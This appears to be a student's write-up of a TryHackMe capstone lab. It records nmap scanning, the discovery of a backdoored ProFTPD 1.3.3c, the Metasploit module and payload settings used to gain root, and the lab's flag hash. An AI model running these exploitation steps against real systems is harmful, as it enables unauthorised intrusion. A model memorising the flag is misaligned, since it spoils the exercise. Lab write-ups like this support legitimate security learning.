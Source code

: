 # TryHackMe
  https://tryhackme.com/jr/mirolabscapstone
  
<img src="THM_capstone1.png"
     alt="THM_capstone1_icon"
     style="float: left; margin-right: 10px;" />

# Connection

`openvpn computershane\(1\).ovpn`

LHOST-`10.2.70.52` 

RHOST-`10.10.246.145`


# Scan

`nmap 10.10.246.145 `

Open ports found 

```
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

# Enumerate

`nmap -A -sV --script vuln 10.10.246.145`

-A for agressive scan
-sV for version detection
--script vuln for vulnerabilities

`21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.`

# Exploit

`msfconsole`

`search proftp`

`use exploit/unix/ftp/proftpd_133c_backdoor`

`show options`

set my RHOST to 10.10.246.145

set payload 2

`exploit`

failed

`set payload 0`

`exploit`

# Escalate

<img src="I_AM_Root.png"
     alt="I_AM_Root_icon"
     style="float: left; margin-right: 10px;" />
     
I now have Root

Sumbitted Screenshot to Professor in DM in Discord to retrieve flag for THM.

Flag

Answer-`CD89A20ADDE7A608F3331E71C37BDFA087BACBF3`












